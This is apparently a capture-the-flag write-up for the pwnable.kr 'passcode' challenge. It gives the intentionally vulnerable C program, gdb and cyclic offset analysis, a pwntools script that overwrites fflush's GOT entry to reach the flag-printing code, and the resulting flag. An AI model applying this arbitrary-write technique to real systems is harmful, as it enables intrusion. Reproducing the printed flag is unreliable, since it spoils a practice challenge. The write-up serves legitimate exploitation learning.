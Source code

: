 ## Pwnable.kr
Target: passcode
SSH Connect: ssh passcode@pwnable.kr -p2222 (pw:guest)

### Code Overview
```
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==123456 && passcode2==13371337){
                printf("Login OK!\n");
		setregid(getegid(), getegid());
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.1 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}

```

### Solution
#### First Attempt
```
passcode@ubuntu:~$ ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : hello
Welcome hello!
enter passcode1 : 123456
enter passcode2 : 1234
Segmentation fault (core dumped)
```

Since the gdb in the machine is broken, I scp the elf to my own machine

#### Second Attempt (Tried to use gdb)
Hints: Well, there were some compiler warnings, but who cares about that?
```
root@kali:~/home/documents# gcc -o pass passcode.c -Wall
passcode.c: In function ‘login’:
passcode.c:9:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    9 |         scanf("%d", passcode1);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
passcode.c:14:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
   14 |         scanf("%d", passcode2);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
passcode.c:19:17: warning: implicit declaration of function ‘setregid’ [-Wimplicit-function-declaration]
   19 |                 setregid(getegid(), getegid());
      |                 ^~~~~~~~
passcode.c:19:26: warning: implicit declaration of function ‘getegid’ [-Wimplicit-function-declaration]
   19 |                 setregid(getegid(), getegid());
      |                          ^~~~~~~
passcode.c:9:9: warning: ‘passcode1’ is used uninitialized [-Wuninitialized]
    9 |         scanf("%d", passcode1);
      |         ^~~~~~~~~~~~~~~~~~~~~~
passcode.c:5:13: note: ‘passcode1’ was declared here
    5 |         int passcode1;
      |             ^~~~~~~~~
passcode.c:14:9: warning: ‘passcode2’ is used uninitialized [-Wuninitialized]
   14 |         scanf("%d", passcode2);
      |         ^~~~~~~~~~~~~~~~~~~~~~
passcode.c:6:13: note: ‘passcode2’ was declared here
    6 |         int passcode2;

```
This tells us that the scanf contains vulnerability since the second parameter of scanf is pointer to address, It is easy to see that there is arbitrary write vulnerability right in front of us

Apart from that, credited to Abdallah Elshinbary for the concept of "after a function stack frame is destroyed, the next function will start at the same base pointer". Thus maybe we could find the address of passcode1 or 2 is reused in the initial memory space of name.

disas login
```
   0x0804921e <+40>:	push   DWORD PTR [ebp-0x10]
   0x08049221 <+43>:	lea    eax,[ebx-0x1fe5]
   0x08049227 <+49>:	push   eax
   0x08049228 <+50>:	call   0x80490d0 <__isoc99_scanf@plt>
```
ebp-16 is the address used by passcode1

Use cyclic to quickly find the offset
```
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find(0x61616179)
96
```
```
Breakpoint 1, 0x08049345 in welcome ()
(gdb) x/30xw $esp
0xffffd5e0:	0x0804a07b	0xffffd5f8	0xf7f93d40	0x080492fe
0xffffd5f0:	0xf7f93d40	0x0804d1a0	0x61616161	0x61616162
0xffffd600:	0x61616163	0x61616164	0x61616165	0x61616166
0xffffd610:	0x61616167	0x61616168	0x61616169	0x6161616a
0xffffd620:	0x6161616b	0x6161616c	0x6161616d	0x6161616e
0xffffd630:	0x6161616f	0x61616170	0x61616171	0x61616172
0xffffd640:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd650:	0x61616177	0x61616178
(gdb) x/40xw $esp
0xffffd5e0:	0x0804a07b	0xffffd5f8	0xf7f93d40	0x080492fe
0xffffd5f0:	0xf7f93d40	0x0804d1a0	0x61616161	0x61616162
0xffffd600:	0x61616163	0x61616164	0x61616165	0x61616166
0xffffd610:	0x61616167	0x61616168	0x61616169	0x6161616a
0xffffd620:	0x6161616b	0x6161616c	0x6161616d	0x6161616e
0xffffd630:	0x6161616f	0x61616170	0x61616171	0x61616172
0xffffd640:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd650:	0x61616177	0x61616178	0x61616179	0x93a5ca00
0xffffd660:	0x0804a088	0x0804c000	0xffffd678	0x08049395
0xffffd670:	0xffffd690	0xf7f92e34	0x00000000	0xf7d92c65
(gdb) x/x ebp-16
No symbol table is loaded.  Use the "file" command.
(gdb) x/x $ebp-16
0xffffd658:	0x61616179
```

Therefore we can only write to the passcode1 not including passcode2

### What address to write to
Check the relocation table to identified what address to write to
```
objdump -R passcode
```
Since the fflush function will be called inside the login function, we may arbitrary write the fflush got table 
to the address we want to execute. When the fflush function is executed, the execution flow is hijacked to what we expected

```
0804c014 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

We can redirect the fflush to execute the below command
```
   0x080492a1 <+171>:	call   0x8049080 <getegid@plt>
   0x080492a6 <+176>:	mov    esi,eax
   0x080492a8 <+178>:	call   0x8049080 <getegid@plt>
   0x080492ad <+183>:	sub    esp,0x8
   0x080492b0 <+186>:	push   esi
   0x080492b1 <+187>:	push   eax
   0x080492b2 <+188>:	call   0x80490c0 <setregid@plt>
   0x080492b7 <+193>:	add    esp,0x10
   0x080492ba <+196>:	sub    esp,0xc
   0x080492bd <+199>:	lea    eax,[ebx-0x1fb9]
   0x080492c3 <+205>:	push   eax
   0x080492c4 <+206>:	call   0x80490a0 <system@plt>

```
We got all the tools we need. Let's write the code

### Code
```python
from pwn import *
import sys

buf = flat(
    "A"*96,
    0x0804c014,
    str(0x080492a1)
)
sys.stdout.buffer.write(buf)
```

```bash
python3 exp32.py | ./passcode
```

### Answer
s0rry_mom_I_just_ign0red_c0mp1ler_w4rning

### Result
```
passcode@ubuntu:~$ python3 /tmp/hello2/exp.py | ./passcode
Toddler's Secure Login System 1.1 beta.
/tmp/hello2/exp.py:4: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  buf = flat(
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
s0rry_mom_I_just_ign0red_c0mp1ler_w4rning
enter passcode1 : Now I can safely trust you that you have credential :)

```

### Lefted Question
Still, I don't understand why sol.py won't work as expected as though it keep expecting smtg from user input (something about buffering). 
